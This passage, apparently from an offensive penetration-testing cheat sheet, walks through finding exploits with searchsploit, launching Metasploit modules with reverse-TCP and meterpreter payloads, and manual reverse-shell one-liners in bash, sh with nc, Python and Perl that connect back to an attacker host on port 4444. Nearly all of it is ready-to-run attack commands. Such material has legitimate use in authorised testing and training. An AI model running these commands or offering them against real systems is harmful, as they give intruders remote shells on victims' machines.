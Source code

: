 ### 2) Identify exploit candidates
```bash
# Search Exploit-DB by service/version strings spotted in nmap
searchsploit <product> <version>
searchsploit <cve-id>     # If you already have a CVE

# Get URLs/paths and mirror PoCs for local review
searchsploit -w <product>
searchsploit -m <exploit_id_or_path>   # Copies PoC to current directory
```

### 3) Framework-driven exploitation (Metasploit example)
```bash
msfconsole -q

# Find module
search <product> <version>    # Or: search cve:<YEAR-XXXX>

# Pick module (example)
use exploit/<path/to/module>
show options

# Configure target and payload
set RHOSTS <TARGET>
set RPORT <PORT>
set LHOST $LHOST
# Choose payload (examples)
set PAYLOAD linux/x64/shell_reverse_tcp
# or:
# set PAYLOAD windows/x64/meterpreter/reverse_tcp

# Run
run
# or:
exploit

# If meterpreter:
# sysinfo
# getuid
# shell
```

### 4) Manual reverse shell path (when you have RCE)
```bash
# Listener (wrap for history/arrow keys)
rlwrap nc -lvnp 4444

# Trigger a reverse shell from the target (examples):

# Bash
bash -c 'bash -i >& /dev/tcp/'"$LHOST"'/4444 0>&1'

# POSIX sh with mkfifo (works widely)
mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | nc '"$LHOST"' 4444 > /tmp/f

# Python
python3 -c 'import os,pty,socket; s=socket.socket(); s.connect(("'"$LHOST"'",4444)); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/bash")'

# Perl
perl -e 'use Socket;$i="'"$LHOST"'";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```